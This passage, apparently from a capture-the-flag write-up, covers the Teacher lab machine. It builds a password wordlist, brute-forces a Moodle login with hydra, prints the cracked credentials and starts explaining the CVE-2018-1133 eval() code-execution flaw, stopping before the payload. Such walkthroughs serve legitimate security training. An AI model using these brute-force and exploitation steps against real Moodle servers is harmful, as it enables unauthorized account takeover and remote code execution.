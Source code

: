 Clicking anywhere takes me to the login page.

## Shell as www-data

### Brute Force Giovanni

From the note I know all but the last character of the password to log into something. I’m going to guess/hope that’s Moodle. I’ll use `python` to generate passwords:

```

root@kali# python3 -c 'import string; print("\n".join([f"Th4C00lTheacha{c}" for c in string.printable[:-5]]))' > passwords

```

For those not familiar with the python list comprehension syntax, here’s what that one-liner is doing:
- First I import the string library.
- `[f"Th4C00lTheacha{c}" for c in string.printable[:-5]]` creates an array. To do so, it will loop over the elements of `string.printable` (technically all but the last 5 which I’ve left off with `[:-5]`). For each element, it will add `f"Th4C00lTheacha{c}"` to the array, where `c` is the element. This is the python f-string format, so `{c}` is just replaced with the variable value.
- Now with an array of the password with lots of different last characters, I’ll pass that to `'\n'.join(array)`, which builds a string by combining all the elements with `\n`.
- That is printed and redirected to a file, `passwords`.

Now I’ll use `hydra` to try them and find the password:

```

root@kali# hydra -l Giovanni -P passwords 10.10.10.153 http-post-form "/moodle/login/index.php:anchor=&username=^USER^&password=^PASS^&rememberusername=1:Invalid login"                 
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.                                                                                            

Hydra (http://www.thc.org/thc-hydra) starting at 2018-12-04 11:16:47
[DATA] max 16 tasks per 1 server, overall 16 tasks, 95 login tries (l:1/p:95), ~6 tries per task
[DATA] attacking http-post-form://10.10.10.153:80//moodle/login/index.php:anchor=&username=^USER^&password=^PASS^&rememberusername=1:Invalid login                                                                         
[80][http-post-form] host: 10.10.10.153   login: Giovanni   password: Th4C00lTheacha#
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-12-04 11:17:24

```

### RCE in moodle

#### Background

[CVE-2018-1133](https://blog.ripstech.com/2018/moodle-remote-code-execution/) was a vulnerability that allows any user in the teacher role to get remote code execution through Moodle. The vulnerability is in the part of the code that allows a teacher to define a problem like “What is {x} + {y}?”, and have different x and y for each student. Moodle picks a random x and y, and then gets the answer by calling php’s `eval()` on the formula input. So if I can poison the input, I can get it to run my code. The [post](https://blog.ripstech.com/2018/moodle-remote-code-execution/) gives the following string that will give execution and bypass filters:
